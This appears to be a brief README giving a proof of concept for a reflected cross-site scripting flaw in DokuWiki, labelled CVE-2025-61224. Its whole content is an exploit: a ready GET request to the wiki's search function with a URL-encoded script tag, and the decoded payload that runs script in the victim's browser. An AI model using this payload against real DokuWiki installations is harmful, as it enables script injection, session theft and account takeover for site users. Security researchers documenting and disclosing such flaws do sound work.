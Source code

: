 # DokuWiki
# CVE-2025-61224
***poc:***  *GET https://<host>/dokuwiki/doku.php?id=start&do=search&q=1%20%40%3Cscript%3Eprompt%60xss%60%3C%2fscript%3E*
***Payload:*** ```1 @<script>prompt`xss`</script>```
